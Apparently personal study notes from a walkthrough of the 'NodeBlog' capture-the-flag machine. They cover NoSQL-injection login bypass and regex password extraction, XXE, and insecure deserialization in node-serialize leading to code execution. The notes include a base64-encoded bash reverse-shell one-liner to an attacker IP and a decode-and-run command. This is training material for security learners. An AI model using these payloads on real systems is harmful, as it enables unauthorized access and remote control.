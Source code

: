 # NodeBlog
#regex #python #xxe #noSQLi 
- Video https://www.youtube.com/watch?v=ahzOprfN--Y
- Node.js is running express framework
	- Like flask or django for python
- A lot of node.js applications do not use SQL
-  PHP is common with LAMP stack
-  Node.js is all about the MEAN stack
	- MongoDB
	- Express framework
	- Angular
	- Node.js
- Uses no SQL
- Often can not do noSQLi when content-type is set to `application/x-www-form-urlencoded`
- Try converting to `application/json`
- Make payload json
- i.e `{"user":"admin", password: "password1"}`
- With noSQLi 
```json
{"user":"admin", "password":
	{
		"$ne":"password1"
	}
}
```
- We are saying login if user == admin and password != password1
- If this kind of vulnerability exist, we can work out the password by using regex
- i.e:
```json
{"user":"admin", "password":
	{
		"$regex":"^c"
	}
}
```
- If the password starts with a "c" we will log in
- Repeat process again but with `$regex:"^cb"`, and if u log in u know the password starts with cb
- Write a script to do this automatically to work out the password
- **Python Tip** - Can use a different type of fstring
```python
string = "Text from string one"
string2 = "Text from string two - %s" % string

print(string2)
# Will output Text from "string two - Text from string one"
```
- When using requests library, can use `json=data` instad of `data=data` and python will automatically set the content-type header to `application/json`
- In regex `.*` means anything
- Can use `string.ascii_letters` from the `string` library to get all ascii characters
- When dealing with xml try an xml Entity Injection (XXE)
- [Pyaload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings) is a great resource 
- Start basic with something like printing a name as application may be install preventing u from reading files
- In node.js the mail files are usually either:
	- app.js
	- server.js
	- main.js
- Check node imports for vulnerable dependencies
- In this case the vulnerable module was node-serialize
- Googling for this vulnerability bring up a payload to use
- The issue was insecure desericalization
```js
c = serialize.unserialize(c) // Where c was the users cookie - Insecure
c = JSON.parse(JSON.stringify(c)) // Secure way
```
- RCE was obtained by putting a malicious payload inside the cookie
- When seeting up reverse shell payload and u know there is going to be url encoding, convert reverse shell to base64
- Do this anythime special characters may be a problem
- Add extra white space to get rid of `+` character in base64 output
- `echo -n 'bash -i  >& /dev/tcp/<ip>/<port>  0>&1' | base64`
- To activate payload do: `echo -n <base64 string> | base64 -d | bash`
- Can view bson documents using `bsondump`
- Can use a tool called `jq` to prettyify json in the terminal
- Always test for IDOR